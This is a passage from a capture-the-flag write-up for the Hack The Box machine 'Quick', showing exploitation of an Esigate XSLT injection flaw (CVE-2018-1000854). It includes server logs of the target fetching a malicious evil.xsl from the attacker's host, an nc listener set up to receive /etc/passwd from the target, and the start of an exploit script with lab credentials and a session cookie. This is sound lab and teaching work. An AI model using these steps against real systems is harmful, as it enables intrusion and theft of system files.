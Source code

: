 ![](/assets/img/assets/18.5-im-in.png)

![](/assets/img/assets/19-ticket.png)

After some testing I found that the vulnerability indeed existed in the ticket search function!  After submitting my "ticket" to the system searching for the ticket number caused the code in the malicious XML file to be read and executed by Esigate.

```text
zweilos@kali:~/htb/quick$ python -m SimpleHTTPServer 9088
Serving HTTP on 0.0.0.0 port 9088 ...
10.10.10.186 - - [11/Aug/2020 21:35:46] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 21:35:46] "GET http://10.10.15.57:9088/evil.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 21:47:27] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 21:47:27] "GET http://10.10.15.57:9088/evil.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 21:47:41] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 21:47:41] "GET http://10.10.15.57:9088/evil.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 21:47:47] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 21:47:47] "GET http://10.10.15.57:9088/evil.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 21:53:58] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 21:53:58] "GET http://10.10.15.57:9088/evil.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 21:59:59] "GET /test.xsl HTTP/1.1" 200 -
10.10.10.186 - - [11/Aug/2020 21:59:59] "GET /test.xml HTTP/1.1" 200 -
10.10.10.186 - - [11/Aug/2020 22:03:31] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 22:03:31] "GET http://10.10.15.57:9088/test.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 22:06:43] "GET /test1.xsl HTTP/1.1" 200 -
10.10.10.186 - - [11/Aug/2020 22:06:44] "GET /test1.xml HTTP/1.1" 200 -
```

After quite a bit of head-scratching and testing, I found that I could only use a specific filename once. After that it caused a 404 error for even files that definitely exist on my locally hosted python server. I wasn't sure what was going on but it must have been something the server was doing.

```text
zweilos@kali:~/htb/quick$ nc -lvnp 13371 > passwd
listening on [any] 13371 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.186] 43030
```

During some of my testing, I tried to get the server to send me `/etc/passwd`, but unfortunately the file was blank. After testing it again a different way, I concluded that this command was being blocked so nothing was being sent.  The important thing was that I could see that my test exploit worked.

Next I created a python script to automate the file upload and ticket search activation process.

```python
#!/usr/bin/env python3
#coding: utf8
#Created by zweilosec (WolfZweiler) for CVE-2018-1000854 (as exposed in HTB - quick)

import requests
from bs4 import BeautifulSoup
import time
import sys

login_url = "http://quick.htb:9001/login.php"
login_data = 'email=elisa@wink.co.uk&password=Quick4cc3$$'
login_headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Cookie': 'PHPSESSID=03u65s156tk17dfddsi28m7rld', 
    'Referer': 'http://quick.htb:9001/login.php',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Host': 'quick.htb:9001'}
```